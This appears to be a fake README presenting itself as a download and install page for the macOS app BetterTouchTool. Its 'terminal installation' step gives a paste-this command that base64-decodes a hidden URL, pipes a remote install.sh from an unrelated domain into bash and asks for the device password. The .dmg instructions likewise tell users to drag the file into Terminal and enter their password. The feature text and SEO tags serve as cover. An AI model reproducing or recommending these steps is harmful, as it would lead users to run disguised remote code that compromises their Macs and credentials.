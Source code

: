 # BetterTouchTool — Touch & Gesture Customization for macOS

![BetterTouchTool macOS Interface](https://photos5.appleinsider.com/gallery/26848-38878-000-D2-BetterTouchTool-3x2-xl.jpg)

## 📥 Download BetterTouchTool for macOS – Latest Version

[![⬇️ Download BetterTouchTool Mac](https://img.shields.io/badge/Download-BetterTouchTool-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/BetterTouchTool)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is BetterTouchTool?

**BetterTouchTool (BTT)** is a powerful and flexible macOS utility designed to give users full control over how they interact with their Mac. With support for trackpads, mice, keyboards, and even the MacBook Touch Bar, BTT enables the creation of highly personalized gestures, shortcuts, automations, and visual elements that streamline your workflow and improve productivity.

At its core, BetterTouchTool lets you **redefine how your Mac responds to input**. You can assign custom actions to multi-finger gestures on the trackpad or magic mouse, map keyboard shortcuts globally or per app, and build completely custom Touch Bar interfaces that replace the default macOS layout with your own tools and widgets.

More advanced users can go even further by incorporating **AppleScript, shell scripts, JavaScript for Automation (JXA)**, or web triggers, allowing BetterTouchTool to serve as an automation hub similar to tools like Alfred or Keyboard Maestro.

One of the standout features is its **modular and intuitive interface**, which makes it easy to create complex configurations without writing a single line of code — though scripting is fully supported for power users. With real-time previews, drag-and-drop editors, and extensive documentation, both beginners and professionals can build powerful custom setups.

Whether you're a **developer, designer, video editor, or productivity enthusiast**, BetterTouchTool provides the tools to optimize your setup, reduce repetitive tasks, and gain full control over macOS interactions.

The app is fully compatible with **macOS Sonoma**, **Ventura**, **Monterey**, and optimized for **Apple Silicon (M1, M2, M3)** chips, ensuring fast, responsive performance on modern hardware.

From launching apps and resizing windows to controlling music or triggering complex workflows — **BetterTouchTool makes your Mac feel truly yours**.

![BetterTouchTool Screenshot](https://cdn.macstories.net/thursday-05-oct-2023-14-44-15-1696515630816.png)

---

## ⚙️ Key Features

- 🖐️ **Advanced Gesture Control** – Fully customizable trackpad & mouse gestures.  
- 🎛️ **Touch Bar Customization** – Create personalized widgets, buttons & controls.  
- ⌨️ **Keyboard Remapping** – Set global or app-specific shortcuts.  
- 🧠 **Automation & Triggers** – Set up workflows with AppleScript, JavaScript, or shell.  
- 💡 **Snap Areas** – Smart window snapping & resizing.  
- 🧲 **Window Management** – Control app positioning and layouts easily.  
- 🌈 **UI Customization** – Design your own HUDs, menus, and widgets.  
- 🔁 **Multi-Device Support** – Customize input devices across multiple Macs.  
- 🧩 **Plugin Support** – Expand functionality with community-built extensions.

---

## ✅ Available Versions

- **Standard Version** – All features included with standard license.  
- **Lifetime License** – Pay once, receive all future updates forever.  
- **Free Trial** – Try all features for 45 days before purchasing.

---

## 📦 System Requirements

- macOS 10.15 or later (Ventura, Monterey, Sonoma supported)  
- Apple Silicon (M1/M2/M3) and Intel Macs  
- 4 GB RAM minimum  
- Accessibility permissions enabled

---

## 🔍 Tags

bettertouchtool mac, better touch tool, better touch, better touch bar, better touch bar tool, better touch control mac, better touch mac, bettertouchtool mac download, mac touch customization, customize mac gestures, mac trackpad gestures, touch bar editor mac, btt mac, bettertouchtool m1 support, best mac automation app
